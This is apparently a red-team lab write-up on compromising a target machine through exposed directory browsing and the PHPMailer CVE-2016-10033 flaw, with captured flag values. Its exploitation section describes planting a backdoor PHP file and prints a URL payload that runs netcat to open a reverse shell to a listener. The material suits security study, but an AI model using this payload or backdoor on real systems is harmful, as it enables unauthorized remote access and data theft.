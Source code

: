 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveal the below services and OS details:

nmap -sV 192.168.1.115

![1](/Resources/Images/2/3.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information on the vulnerabilities found in the previous step. These vulnerabilities are potential points of entry

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing a bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1.txt:**  `a2c1f66d28051bd3a5874b5b6r43e21`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    ---

    **Vendor Directory Index view from the browser** | PATH File: **Flag1** | **PHPMAILER version**
     ---|---|---
    ![6](/Resources/Images/2/6.PNG) | ![7](/Resources/Images/2/7.PNG) | ![9](/Resources/Images/2/9.PNG)    

---

**flag2.txt:**  `6a8ed560f0b5358ecf844108048eb337`

**flag3.txt:**  `a0f568aa9de277887f37730d71520d9b`

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. First, a customized script uploads a file to the vulnerable machine. The file allows the execution of NetCat in the exploited machine.

    2.  Second, a Command and Control is configured to listen using a NetCat command. 

    3. Finally, the exploited machine is instructed to call the Command and Control via a designed payload running in a browser. The payload has embedded a Netcat command to call the Command and Control machine.

        **Crafted payload:** `192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash`

        ![17](/Resources/Images/2/17.PNG)

        **Sensitive information has been found in the "www" and "WordPress uploads" directory**    

        **flag2**

        ![19](/Resources/Images/2/19.PNG)

        **flag3**

        ![20](/Resources/Images/2/20.PNG)